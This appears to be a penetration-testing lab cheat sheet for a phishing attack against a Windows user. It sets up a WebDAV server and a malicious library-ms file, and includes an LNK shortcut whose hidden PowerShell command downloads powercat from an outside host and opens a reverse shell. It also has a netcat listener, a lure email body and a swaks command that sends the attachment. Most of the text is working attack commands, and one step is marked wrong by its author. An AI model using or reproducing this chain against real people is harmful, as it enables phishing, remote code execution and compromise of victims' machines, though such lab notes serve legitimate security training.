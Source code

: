 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```

### 2) Create 'config.Library.ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```

### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```

### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```



